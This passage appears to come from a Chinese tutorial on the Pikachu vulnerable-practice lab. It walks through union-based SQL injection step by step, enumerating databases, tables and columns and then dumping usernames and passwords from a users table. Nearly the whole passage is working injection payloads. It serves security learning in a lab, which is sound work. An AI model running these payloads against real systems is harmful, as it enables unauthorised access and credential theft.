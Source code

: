 ```
#联合查询查看显示位 
-1' union select 1,2#
```

![image-20220125151256161](https://gitee.com/xxb667/img/raw/master/img/image-20220125151256161.png)

### 爆库

获得数据库名称

```
#爆库【pikachu】得到数据库中的所有数据库
-1' union select 1,group_concat(schema_name) from information_schema.schemata#
```

![image-20220125151537516](https://gitee.com/xxb667/img/raw/master/img/image-20220125151537516.png)



```
#获得当前数据库名 
-1' union select 1,database() #
```

![image-20220125151641971](https://gitee.com/xxb667/img/raw/master/img/image-20220125151641971.png)

### 爆表

获得数据库中的表名

```
#爆表【httpinfo,member,message,users,xssblind】 
-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()# 
```

![image-20220125151905339](https://gitee.com/xxb667/img/raw/master/img/image-20220125151905339.png)

### 爆列

得到指定表中的所有列名

```
 #爆列【...,username,password,...】 -1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#
```

![image-20220125152043414](https://gitee.com/xxb667/img/raw/master/img/image-20220125152043414.png)

### 爆值

得到指定表的指定值

```
 #爆值，得到用户名和密码 
 -1' union select 1,concat_ws('-',username,password) from users#
```
